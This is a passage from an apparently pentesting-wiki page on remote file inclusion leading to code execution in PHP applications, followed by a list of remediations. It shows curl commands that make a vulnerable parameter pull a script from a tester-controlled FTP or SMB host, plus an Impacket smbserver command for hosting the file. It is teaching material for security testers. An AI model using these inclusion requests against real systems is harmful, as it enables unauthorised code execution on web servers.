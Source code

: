 {% hint style="info" %}
PHP uses the anonymous credentials to authenticate to the FTP server. If the tester needs to use custom credentials, he can authenticate as follows :

`curl '$URL/?parameter=ftp://user:pass@tester.server/phpinfo.php'`
{% endhint %}



### via SMB[​](https://www.thehacker.recipes/web/inputs/file-inclusion/rfi-to-rce#via-smb) <a href="#via-smb" id="via-smb"></a>

Sometimes, the vulnerable web application is hosted on a Windows Server, meaning the attacker could log into a SMB Server to store the arbitrary PHP code.

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) (Python) script can be used on the attacker-controlled machine to create a SMB Server.

```bash
sudo python3 smbserver.py -smb2support share $(pwd) 130 
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

The PHP script can then be included by using a [UNC](https://en.wikipedia.org/wiki/Universal_Naming_Convention) Path.

```bash
curl '$URL/?parameter=\\tester.server\phpinfo.php'
```



## Remediations

* Keep system and services, including web app framework, updated with the latest version.
* Turn off PHP errors to avoid leaking the path of the application and other potentially revealing info
* A WeB App Firewall (WAF) is a good option to help mitigate web app attacks
* Disable some PHP features that cause file inclusion vuln if your web app doesn't need them, such as `allow_url_fopen` on and `allow_url_include`.
* Carefully analyze the web app and allow only protocols and PHP wrappers that are in need.
* Never trust user input, and make sure to implement proper input validation against file inclusion.
* Implement whitelisting for file names and locations as well as blacklisting.




